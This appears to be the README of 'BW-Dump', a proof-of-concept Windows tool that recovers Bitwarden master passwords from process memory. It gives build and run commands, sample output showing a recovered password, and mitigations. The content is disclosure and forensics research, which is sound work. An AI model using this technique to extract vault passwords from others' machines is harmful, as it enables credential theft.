 # BW-Dump

A proof-of-concept tool that extracts the master password from a locked Bitwarden vault (must be unlocked at least once), only tested and supported on Windows 10 and 11.

## Update (07/02/23)
The tool now supports the latest version of Bitwarden Desktop (2023.1.1) on Windows 10 and 11.

![bw-desktop-version](https://user-images.githubusercontent.com/9108334/217309342-42fa29d5-816b-40f5-9f10-bc5a457c7e44.png)


## Update (21/09/22)
A recent security update (not sure which one exactly) has fixed the issue on the web browser extension. However, on versions `v2022.6.0` and below it should still work.

## Demo
A short demo of using bw-dump with Microsoft Edge and the Bitwarden browser extension.

https://user-images.githubusercontent.com/9108334/191377244-f0e9a123-e4f0-43b0-90b5-697fc005ae7b.mov

## Building
**Warning: Windows Defender may report the compiled binary as malicious!**

To build on a system other than Windows:
```bash
env GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
```

Otherwise, run `go build -ldflags="-s -w"` which builds a stripped binary.

## Running
Simply build and execute the binary. It does NOT require admin rights. Make sure, a Chromium browser is running and the Bitwarden extension is installed. In addition, the vault needs to be unlocked at least once. After which, the master password will be stored in memory for a period of time. 

You can also pass the `-d` option to dump memory regions when a pattern is found. For each result, a filename `dump-pid-<PID>-<MEM-REGION>.hex` is created in the current working directory.

**Example Output**
```bash
PS C:\Users\Tester\dev\go\bw-dump> bw-dump.exe

 888 88b, Y8b Y8b Y888P    888 88e
 888 88P'  Y8b Y8b Y8P     888 888b  8888 8888 888 888 8e  888 88e 
 888 8K     Y8b Y8b Y  888 888 8888D 8888 8888 888 888 88b 888 888b
 888 88b,    Y8b Y8b       888 888P  Y888 888P 888 888 888 888 888P
 888 88P'     Y8P Y        888 88"    "88 88"  888 888 888 888 88" 
                                                           888     
            Created by @NazMarkuta at Red Maple            888     
    
BW-Dump is a Windows forensics tool that extracts Bitwarden master passwords from locked vaults
(must be unlocked at least once) by reading process memory using Windows API functions which
searches for magic byte patterns. The tool doesn't require any special (admin) permissions.

Now supports Bitwarden Desktop App (v2023.1.1) running on Windows 10 or 11. The tool (may) 
still support older Bitwarden Chromium extension versions (v2022.6.0) and below.

[+] Searching for processes...
[+] PID: 4228
[+] EXEName: Bitwarden.exe
[+] CMDLine: "C:\Users\Tester\AppData\Local\Programs\Bitwarden\Bitwarden.exe" --type=renderer --user-data-dir="C:\Users\Tester\AppData\Roaming\Bitwarden" --app-path="C:\Users\Tester\AppData\Local\Programs\Bitwarden\resources\app.asar" --no-sandbox --no-zygote --first-renderer-process --lang=en-GB --device-scale-factor=1 --num-raster-threads=1 --renderer-client-id=4 --time-ticks-at-unix-epoch=-1675782335888921 --launch-time-ticks=4007177473 --mojo-platform-channel-handle=2508 --field-trial-handle=1792,i,3673052334935287551,6849534636950916074,131072 --disable-features=SpareRendererForSitePerProcess,WinRetrieveSuggestionsOnlyOnDemand /prefetch:1

[+] Searching PID memory (4228)
[+] Found pattern at MemBaseAddr (0xb0800554000)
[+] Found password prefix bytes at offset (0xc121)
[!] Invalid offset size, skipping...

[+] Found pattern at MemBaseAddr (0xb0800a8c000)
[+] Found password prefix bytes at offset (0x1104)
[!] Invalid offset size, skipping...

[+] Found pattern at MemBaseAddr (0xb08014bc000)
[+] Found password prefix bytes at offset (0x62aa)
[+] Password recovered: "SUPER-SECURE-password8"

PS C:\Users\Tester\dev\go\bw-dump> 
```

## Is there a solution or workaround?
There are two ways (probably more) the master password can be trashed from memory:
1. Once locked, enter any random WRONG password. This should replace your password stored in memory.
2. Terminate the `Bitwarden.exe` process which Windows should do some garbage collection.

## What's next?
- Create a Volaility3 plugin that can extract master passwords from saved memory dumps.
